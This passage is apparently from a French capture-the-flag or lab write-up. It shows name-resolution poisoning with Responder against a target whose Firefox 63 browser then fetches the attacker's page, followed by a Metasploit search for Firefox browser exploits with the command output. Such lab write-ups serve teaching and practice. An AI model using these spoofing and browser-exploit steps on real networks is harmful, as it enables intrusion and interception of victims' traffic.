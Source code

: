 ## Un seul port vous manque, et tout est dépeuplé.

Sur le port 80 on trouve une page où quelqu'un a placé quelques exemples d'utilisation de Metasploit.

En bas de page on trouve un lien menant sur cet article : [Running Metasploit Remotely | Metasploit Documentation](https://docs.rapid7.com/metasploit/running-metasploit-remotely/)

Comme j'ai aussi vu le port `LLMNR` j'ai lancé Kali Linux puis `Responder` histoire de voir ce qu'il se trame :

```shellsession
┌──(kali㉿kali)-[~]
└─$ sudo responder -I eth0 -v                             
[sudo] Mot de passe de kali : 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0
--- snip ---
[+] Listening for events...                                                                                                                                                                                                                 

[*] [MDNS] Poisoned answer sent to fe80::ab2a:ba79:8a4a:8bb9 for name epicexploits.local
[*] [MDNS] Poisoned answer sent to 192.168.56.78   for name epicexploits.local
```

La machine cherche à contacter `epicexploits.local` dont `Responder` usurpe l'adresse.

Si on surveille le trafic avec Wireshark on voit qu'après un moment un *Firefox 63* demande la page d'index de notre port 80.

J'ai fouillé dans les exploits dont Metasploit dispose :

```
msf6 exploit(multi/browser/adobe_flash_opaque_background_uaf) > search platform:linux firefox

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   0   exploit/multi/browser/adobe_flash_uncompress_zlib_uaf       2014-04-28       great      No     Adobe Flash Player ByteArray UncompressViaZlibVariant Use After Free
   1   exploit/multi/browser/adobe_flash_hacking_team_uaf          2015-07-06       great      No     Adobe Flash Player ByteArray Use After Free
   2   exploit/multi/browser/adobe_flash_shader_drawing_fill       2015-05-12       great      No     Adobe Flash Player Drawing Fill Shader Memory Corruption
   3   exploit/multi/browser/adobe_flash_nellymoser_bof            2015-06-23       great      No     Adobe Flash Player Nellymoser Audio Decoding Buffer Overflow
   4   exploit/multi/browser/adobe_flash_net_connection_confusion  2015-03-12       great      No     Adobe Flash Player NetConnection Type Confusion
   5   exploit/multi/browser/adobe_flash_pixel_bender_bof          2014-04-28       great      No     Adobe Flash Player Shader Buffer Overflow
   6   exploit/multi/browser/adobe_flash_shader_job_overflow       2015-05-12       great      No     Adobe Flash Player ShaderJob Buffer Overflow
   7   exploit/multi/browser/firefox_proto_crmfrequest             2013-08-06       excellent  No     Firefox 5.0 - 15.0.1 __exposedProps__ XCS Code Execution
   8   exploit/multi/browser/firefox_jit_use_after_free            2020-11-18       manual     No     Firefox MCallGetProperty Write Side Effects Use After Free Exploit
```